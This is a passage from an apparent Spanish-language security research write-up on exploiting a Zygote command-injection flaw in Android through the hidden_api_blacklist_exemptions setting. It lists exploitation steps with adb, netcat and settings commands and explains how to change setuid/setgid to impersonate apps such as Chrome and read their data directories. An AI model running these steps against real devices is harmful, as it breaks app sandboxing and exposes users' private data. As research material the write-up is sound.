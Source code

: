 ¡Bien! Podemos ver la salida del comando `id`, luego `pwd`, que muestra que efectivamente entramos al directorio de la aplicación _Settings_, y la salida de `ls -al` en ese directorio.

Algo muy importante: vimos esta salida en una terminal de **nuestro** computador. Eso quiere decir que estamos _extrayendo_ información de una manera muy básica, pero al menos tenemos una ventana entre el _sandbox_ de la aplicación y nuestro equipo.

Hasta acá tenemos un proceso mediante el cual podemos inyectar comandos y ver su salida (proceso de explotación):

1. Modificar el archivo con la _payload_ con el comando que queramos ejecutar redireccionando su salida a `nc 127.0.0.1 31337`.  
   1.1. Subir el archivo al emulador:  
   ```bash
   adb push payload_1.txt /data/local/tmp/
   ```
&nbsp;
2. En una terminal del computador, poner a _netcat_ a escuchar en el puerto 31337:  
   ```bash
   adb shell nc -l -p 31337
   ```
&nbsp;
3. En la shell de `adb`, ejecutar el comando `settings` para disparar el exploit:  
   ```bash
   settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload_1.txt)"
   ```
   &nbsp;
4. Dejar la variable `hidden_api_blacklist_exemptions` en `null`:  
   ```bash
   settings put global hidden_api_blacklist_exemptions null
   ```
&nbsp;

**Nota:**En nuestra experiencia, no siempre al ejecutar el comando `settings` para explotar la vulnerabilidad se obtiene la salida; a veces hay que intentarlo de nuevo para que funcione. Además, es importante, después de cada intento de explotación, ir a la pantalla del teléfono y abrir/cerrar alguna aplicación (cualquiera) para que Zygote se _sincronice_ de nuevo.

### Volviéndonos cualquier aplicación

Ya podemos volvernos _system_ (usuario 1000), pero ¿qué pasa con las demás aplicaciones? ¿Funciona igual nuestro exploit?

Lo primero es averiguar qué usuario pertenece a qué aplicación y así poder asignarlo en el comando (de Zygote) inyectado. Encontramos que `dumpsys` funciona para esta tarea. Averiguar el usuario de Chrome se vería así:

```bash
generic_x86_arm:/ $ dumpsys package com.android.chrome | grep userId=                               
    userId=10128
generic_x86_arm:/ $ 
```

Debemos modificar nuestra _payload_ cambiando los argumentos `--setuid` y `--setgid` para que ahora valgan `10128` y cambiar el directorio que listaremos por el de Chrome, para nuestro caso `/data/data/com.android.chrome/`. Después de los cambios, nuestra payload quedaría así:

